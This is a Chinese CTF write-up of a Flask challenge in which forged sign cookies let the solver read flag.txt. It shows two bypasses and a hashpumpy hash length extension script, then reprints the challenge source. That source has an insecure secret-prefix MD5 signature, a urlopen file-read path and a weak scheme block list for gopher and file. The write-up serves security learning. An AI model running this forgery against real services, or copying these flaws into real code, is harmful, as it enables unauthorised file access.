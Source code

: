 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-18
---
```


## 思路

1. 题目提示hint为`flag is in ./flag.txt`，另外打开网页显示一段flask代码，如下：

<img src="images/image-20210118204158228.png" alt="image-20210118204158228" width="50%;" />

​	整理代码进行分析，主要分为两大块。

- class Task

- 三个路由，对应这三个路由，分别有不同的执行动作

  <img src="images/image-20210118205659171.png" alt="image-20210118205659171" width="50%;" />

  - @app.route("/geneSign", methods=['GET', 'POST'])

    - 获取param参数值，并将action设置为scan
    - 获取sign值（调用getSign函数）

  - @app.route('/De1ta',methods=['GET','POST'])

    - 获取param参数值，并从cookie获取action和sign值
    - 调用Task类，并返回task.Exec()返回值

  - @app.route('/')

    - 根目录路由，即打开网页显示的内容

  - 分析完三个路由其实就可以比较清晰的看出，Task.exec()应该是一个比较重要的函数，设置特定参数值，即可获取flag内容。

    <img src="images/image-20210118205754486.png" alt="image-20210118205754486" width="50%;" />

  2. 分析class Task

     - 函数首先会checkSign，即验证sign值是否正确。
     - 然后会判断scan和read这两个字符串是否在cookie action中
       - scan：先打开tmpfile文件，然后读取传入param对应的文件，并将读取的文件内容写入tmpfile
       - read：读取scan中tmpfile对应的文件内容
       - 最后返回result

     因此如果想读取flag，完整的流程应该是，通过checkSign验证，然后先读取flag.txt，写入tmp文件中，再读取tmp文件。

     这样会**要求**：

     - getSign(self.action, self.param) == self.sign
       - hashlib.md5(secert_key + param + action).hexdigest()
       - 即当前action和param产生的md5值，与cookie中sign值相同
     - scan和read均在cookie的action值中。

  3. 绕过方法：

     **设置sign值，**

  --》根据传入一个param参数值，geneSign可以获取一个sign值

  ​	   但这里生成的sign值中action始终为scan，与上面的第二点要求冲突。

  ​		因此可以从md5生成方式入手：

  ​		题目是对`secert_key + param + action`三者拼接而成的字符串进行md5，而在获取flag时，必须设置action为readscan/scanread，则这里可以考虑在geneSign页面输入param时，直接输入flag.txtread，然后与geneSign中的action拼接后便为flag.txtreadscan，满足要求。

  <img src="images/image-20210118212149606.png" alt="image-20210118212149606" width="67%;" />

  <img src="images/image-20210118212312532.png" alt="image-20210118212312532" width="67%;" />

  4. 这里也可使用另外一种方法：**哈希长度扩展攻击**

     主要使用python的hashpumpy库

脚本如下：

```python
import hashpumpy
import requests
import urllib.parse

txt1 = 'flag.txt'
r = requests.get('http://**/geneSign', params={'param': txt1})
sign = r.text
hash_sign = hashpumpy.hashpump(sign, txt1 + 'scan', 'read', 16)

r = requests.get('http://**/De1ta', params={'param': txt1}, cookies={
    'sign': hash_sign[0],
    'action': urllib.parse.quote(hash_sign[1][len(txt1):])
})

print(r.text)
```

附录（源码）：

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0')
```



## 总结

- 主要考察flask源码审查，整个代码逻辑理清楚之后还是比较容易做出了的
- 注意本题的第二种方法  **哈希长度扩展攻击** 值得学习